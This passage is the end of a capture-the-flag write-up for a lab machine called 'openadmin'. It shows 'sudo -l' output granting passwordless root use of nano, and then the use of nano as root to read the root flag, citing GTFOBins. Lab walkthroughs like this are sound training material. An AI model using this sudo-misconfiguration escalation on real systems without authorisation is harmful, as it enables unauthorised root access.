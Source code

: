 Now we just need to find our way to root. There's a few things I always try before grabbing an enumeration script. First one is check for sudo privileges:

```text
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

Well that was simple. A classic nano exploit, seen many time before and noted on [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo). I'll just grab the root flag.

```text
joanna@openadmin:~$ sudo /bin/nano /opt/priv
```

With nano open as root we can read the flag in, by pressing CTRL+R and then entering the path to the flag:

![open-root](/assets/images/2021-07-26-22-56-01.png)

All done. See you next time.
